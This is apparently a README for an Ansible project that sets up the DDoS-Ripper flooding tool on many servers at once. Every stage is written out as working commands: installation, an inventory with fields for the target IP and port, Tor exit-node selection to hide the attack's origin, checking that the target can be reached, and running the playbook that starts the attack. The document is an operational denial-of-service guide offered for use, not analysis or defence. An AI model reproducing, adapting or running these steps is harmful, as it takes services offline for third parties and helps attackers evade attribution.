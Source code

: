 **Usage:**

# 1. Install python3 and Ansible
```
sudo apt install python3 python3-pip
sudo -H pip3 install --upgrade pip
pip3 install ansible==2.9.7
```

Create ansible config file:
```
mkdir -p /etc/ansible
vim /etc/ansible/ansible.cfg

$ cat /etc/ansible/ansible.cfg
[defaults]
host_key_checking = False
callback_whitelist = profile_tasks
timeout = 300
command_warnings = False
[inventory]
[privilege_escalation]
[paramiko_connection]
[ssh_connection]
ssh_args = -C -o ControlMaster=auto -o ControlPersist=600s -o UserKnownHostsFile=/dev/null
control_path = /tmp/ansible-ssh-%%h-%%p-%%r
pipelining = True
[persistent_connection]
connect_timeout = 300
[accelerate]
[selinux]
[colors]
[diff]
```

Clone git repo:
```
mkdir -p /opt/git
cd /opt/git
git clone https://github.com/deadmopozz/ddos-ripper-ansible.git
```

# 2. Prepare inventory /opt/git/ddos-ripper-ansible/inventory/hosts:

- add your hosts and vars as follow:
```
# Add hosts to this group
[all]
kozak1      ansible_host=192.168.0.2
kozak2      ansible_host=192.168.0.3
kozak3      ansible_host=192.168.0.4
kozak4      ansible_host=192.168.0.5


[all:vars]
# Default soft vars
git_repo=https://github.com/palahsu/DDoS-Ripper.git
git_dest=/tmp/ddos-ripper
soft=['tor', 'tor-geoipdb', 'proxychains', 'geoip-bin', 'python3', 'python3-pip']

# Ansible vars
ansible_ssh_private_key_file="/path/to/your/ssh_key" # !!! Configure path to your ssh key
ansible_user="username_with_sudo_permissions" # !!! Configure username with sudo permissions

# Tor vars
ExitNodes='ExitNodes {ru}' # Choose you exit nodes for tor proxy, syntax:  ExitNodes {ru},{us}

# Systemd unit vars
MemoryHigh=450M # Memory soft limit for systemd unit
MemoryMax=550M # Memory hard limit for systemd unit, unit will fail in case it will use more memory then configured value
CPUQuota=85% # CPU limit for unit

# Target vars
target=127.0.0.1 # !!! configure target for atack, it could be IP address or DNS name 
port=443 # !!! Configure port for atack
time=10000 

[group1]
kozak1
kozak2

[group2]
kozak3
kozak4
```

# 3. Before the atack you should check the connection to target (torsocks telnet [target] [port]):
If you see the output below, then the attack will be successful
```
# torsocks telnet google.com 443
Trying 142.250.217.110...
Connected to 142.250.217.110.
Escape character is '^]'.
```

If the output will be like this:
```
# torsocks telnet google.com 443
Trying 142.250.217.110...
```
You should restart tor "systemctl restart tor" and try again.
If it doesn't help, try to change ExitNode to another country, and try again.
If nothing helps - change the target

# 4. Run installation playbook and start the attack:

### You must have the same username and password or ssh key for each server
### After playbook run has finished - attack has started, you can check logs /var/log/syslog for details
### If you want to change target you need to change the variables (Target vars) in /opt/git/ddos-ripper-ansible/inventory/hosts file and rerun the playbook

### - If you use username and password for ssh authentication (username should be configured in inventory file /opt/git/ddos-ripper-ansible/inventory/hosts):
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK 
```

### - If you use ssh key for ssh authentication (username and path to ssh key file should be configured in inventory file /opt/git/ddos-ripper-ansible/inventory/hosts):
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b 
```


Useful commands:
```
Check IP:
ansible all -i ../../inventory/hosts -b -m shell -a "torsocks curl -s ifconfig.me"
Check Coutry:
ansible all -i ../../inventory/hosts -b -m shell -a "geoiplookup $(torsocks curl -s ifconfig.me)"
```